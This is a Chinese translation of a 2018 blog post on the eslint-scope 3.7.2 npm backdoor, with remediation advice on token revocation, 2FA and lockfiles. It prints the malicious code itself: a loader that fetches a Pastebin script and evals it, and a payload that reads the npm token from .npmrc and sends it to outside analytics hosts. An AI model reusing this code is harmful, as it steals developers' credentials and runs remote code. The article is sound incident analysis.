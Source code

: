 # ESLint 后门:它是什么以及如何解决这个问题

> 原文：<https://itnext.io/eslint-backdoor-what-it-is-and-how-to-fix-the-issue-221f58f1a8c8?source=collection_archive---------3----------------------->

![](img/18bd0227262c55bff09fa5dbb3dd161e.png)

图片鸣谢: [code.close()](https://flic.kr/p/5Y5QPG) by [文瑞蔡美儿](https://www.flickr.com/photos/ruiwen/)， [CC-BY-SA-2.0](https://creativecommons.org/licenses/by-sa/2.0/)

> 最初发表于[https://oprea.rocks/blog/fix-eslint-scope-backdoor](https://oprea.rocks/blog/fix-eslint-scope-backdoor/)

## 2018 年 7 月 12 日星期四下午 1:17 GMT[安德烈·米哈洛夫— @pronebird](https://github.com/pronebird) 报告了以下关于 [eslint-scope](https://github.com/eslint/eslint-scope) 模块的问题:[eslint-scope 中的病毒？](https://github.com/eslint/eslint-scope/issues/39)

它的要点是，有一些恶意代码添加到模块的代码库，受影响的版本是 3.7.2。我之所以说*是*，是因为 ESLint 团队迎难而上，在创纪录的时间内解决了问题— **谢谢！**

# 如何解决这个问题— [来源](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes#recommendations)

1.  立即撤销你所有的 NPM 代币！
2.  [为您的 NPM 帐户启用双因素身份认证](https://docs.npmjs.com/getting-started/using-two-factor-authentication)。如果你使用 Lerna 的话，下面就告诉你怎么做。
3.  限制可以发布到 NPM 的人数。
4.  注意你使用的自动依赖升级的服务。
5.  使用锁文件`package-lock.json`或`yarn.lock`，并锁定模块版本，以防止软件包自动升级到新版本。
6.  不要在任何地方使用相同的密码。使用密码管理器生成强密码，并安全地存储它们。

# 更长的版本

这个问题与下载 Pastebin 文档的内容并在当前 Node.js 进程的上下文中使用 eval 解释它的一段代码有关。

```
try {
  var https = require('https');
  https.get({
    'hostname': 'pastebin.com',
    path: '/raw/XLeVP82h',
    headers: {
      'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; rv:52.0) Gecko/20100101 Firefox/52.0',
      Accept: 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
    }
  }, (r) => {
    r.setEncoding('utf8');
    r.on('data', (c) => {
      eval(c);
    });
    r.on('error', () => {}); }).on('error', () => {});
} catch (e) {}
```

Pastebin 文档的内容在问题被提交和漏洞被公开后很长时间内都不可用，但幸运的是，人们在它被删除前得到了它。

```
try {
  var path = require('path');
  var fs = require('fs');
  var npmrc = path.join(process.env.HOME || process.env.USERPROFILE, '.npmrc');
  var content = "nofile"; if (fs.existsSync(npmrc)) { content = fs.readFileSync(npmrc, {
      encoding: 'utf8'
    });
    content = content.replace('//registry.npmjs.org/:_authToken=', '').trim(); var https1 = require('https');
    https1.get({
      hostname: 'sstatic1.histats.com',
      path: '/0.gif?4103075&101',
      method: 'GET',
      headers: {
        Referer: 'http://1.a/' + content
      }
    }, () => {}).on("error", () => {});
    https1.get({
      hostname: 'c.statcounter.com',
      path: '/11760461/0/7b5b9d71/1/',
      method: 'GET',
      headers: {
        Referer: 'http://2.b/' + content
      }
    }, () => {}).on("error", () => {}); }
} catch (e) {}
```

从阅读代码片段中可以看出，代码从您的主目录中读取您的`.npmrc`文件。然后，它从中获取您的 NPM 身份验证令牌，并发送两个 HTTP 请求，一个发送给 [Histats](http://www.histats.com/) ，另一个发送给 [StatCounter](https://statcounter.com/) 。

作者创造性地将您的令牌放在 referrer URL 中，并使用两个域，这与 [Webpack](https://webpack.js.org/) 在进行代码拆分时创建您的包的方式非常相似。

很难说这实际上是在泄露敏感的身份验证凭证。

# 谁会受此影响？

基本上每个用 ESLint 的人。如果您在过去几天不幸安装了 ESLint，并且您将 *eslint-scope@3.7.2* 作为一个依赖项安装了——这是自动发生的——您会受到影响。

由于 ESLint 在前端和后端应用程序中都有使用，并且它或多或少地成为了代码质量的事实上的标准，所以爆炸半径可能是巨大的。

你能做的是立刻撤销你所有的 NPM 代币，并且创造新的代币。您还应该在您的 NPM 帐户上启用 2FA。

# 修复私有注册中心的问题

如果你运行的是私有注册表，比如 Nexus，你可能仍然会受到影响。你很可能在主注册中心后面有两个注册中心——一个是私有注册中心，在那里你存储和部署你的内部、公司模块，另一个是 npmjs.com 的代理。

代理可能会带来问题。寻找任何出现的 *eslint-scope@3.7.2* ，如果找到，立即取消发布！

您还应该扫描您的所有系统(您还安装了 dev dependencies)——这包括开发环境，但也包括构建/测试环境，并确保没有安装这个版本的模块。

作为一个附加的安全措施，确保每当你的应用程序经过你的开发环境时，你使用`npm install --prod`或`yarn install --prod`来安装你的节点模块。您需要审查和监督的模块将会减少。

# 进一步阅读

ESLint 核心团队迅速修复了该问题，并发布了一篇事后博客文章，详细说明了时间表、折衷的软件包以及软件包作者需要采取的应急措施。

可以在这里找到:[2018 年 7 月 12 日发布的针对恶意包的事后调查](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)

如果你想进一步了解这个问题，请点击以下链接:

*   [GitHub 问题:eslint-scope 中的病毒？#39](https://github.com/eslint/eslint-scope/issues/39)
*   [blog.sqreen.io: ESLint 后门:撤销所有令牌](https://blog.sqreen.io/eslint-backdoor/)